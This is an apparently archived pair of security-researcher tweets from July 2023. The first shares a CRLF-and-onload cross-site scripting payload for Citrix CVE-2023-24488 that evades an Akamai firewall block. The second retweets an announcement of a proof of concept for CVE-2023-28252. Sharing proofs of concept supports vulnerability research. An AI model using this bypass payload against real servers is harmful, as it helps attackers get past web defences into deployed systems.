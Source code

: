 
# bxmbn
**https://twitter.com/bxmbn/status/1675250259608449026 _at 2023-07-01, 21:09:21_**
<blockquote>
While testing for CVE-2023-24488 I found various servers behind Akamai and since the original payload gives a Forbidden response I found this bypass:

post_logout_redirect_uri=%0D%0A%0D%0A%3Cbody+x=%27&amp;%27onload=%22(alert)(%27citrix+akamai+bypass%27)%22%3E https://t.co/42ZFI61nbW
</blockquote>

<table><tr>
<td><img src="pictures/829d442ae7c54a8bd0c79913e5f51aabf4b6fca7ace67a2f67c47207febfcc8b.jpg" alt="829d442ae7c54a8bd0c79913e5f51aabf4b6fca7ace67a2f67c47207febfcc8b.jpg"></td>
</table></tr>
<table><tr>
<td>Quotes: <code>5</code></td>
<td>Replies: <code>27</code></td>
<td>Retweets: <code>280</code></td>
<td>Favorites: <code>1091</code></td>
</tr></table>

---

# fdfalcon
**https://twitter.com/fdfalcon/status/1675177563923136513 _at 2023-07-01, 16:20:29_**
<blockquote>
RT @ricnar456: As promised, the research on CVE-2023-28252 is already published with its PoC and the detailed explanation of the reversing…
</blockquote>
